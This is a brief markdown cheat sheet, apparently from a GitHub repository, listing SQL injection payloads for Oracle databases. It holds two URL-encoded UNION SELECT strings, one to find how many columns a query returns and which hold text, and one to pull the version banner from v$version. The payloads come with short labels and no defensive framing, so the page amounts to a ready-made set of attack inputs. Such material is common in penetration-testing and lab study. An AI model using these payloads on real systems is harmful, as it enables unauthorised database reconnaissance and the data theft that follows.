 # SQL Injection Payloads

**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data.
```SQL
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```SQL
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
